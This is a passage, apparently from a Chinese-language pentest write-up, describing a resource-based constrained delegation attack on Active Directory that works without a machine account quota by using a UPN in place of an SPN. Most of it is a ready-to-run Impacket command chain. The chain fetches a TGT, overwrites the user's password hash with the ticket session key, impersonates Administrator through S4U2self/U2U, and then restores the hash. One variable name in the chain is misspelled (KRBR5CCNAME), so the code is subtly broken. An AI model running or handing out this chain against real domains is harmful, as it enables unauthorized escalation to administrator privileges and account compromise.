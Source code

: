 [![](assets/1702372846-418a5e3c015f48af5d3db7f6cc596111.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124123631-9197cea6-6bb1-1.png)

#### 无 MAQ 时的新利用方式

当用户具有 A 机器的写权限，但是无法新建机器利用 rbcd，且当前用户没有可用的 SPN 时，可以使用该技术。该技术还未并入主进程。

使用 UPN 替代 SPN 进行 rbcd。流程如下：

用 test 用户的权限请求模拟 administrator 用户的服务票据，仅在 rbcd 情况下有效。且获取 TGT 后要将 TGT 的 Sessionkey 改为 test 的 hash。否则 TGS 无法解密

```bash
#请求 test/test 用户的 TGT
getTGT.py -hashes :$(pypykatz crypto nt 'password') test/test
#查看 TGT 里面的 Ticket Session Key
describeTicket.py 'TGT.ccache' | grep 'Ticket Session Key'
#将 test/test 用户的 hash 改为 TGTSessionKey
smbpasswd.py -newhashes :TGTSessionKey test/test:'password'@'dc01'
#通过委派模拟为 administrator 用户
KRBR5CCNAME='TGT.ccache'
getST.py -u2u -impersonate Administrator -k -no-pass test/test
#还原 test/test 用户的 hash
smbpasswd.py -hashes :TGTSessionKey -newhashes :OldNTHash test/test@'dc01'
```

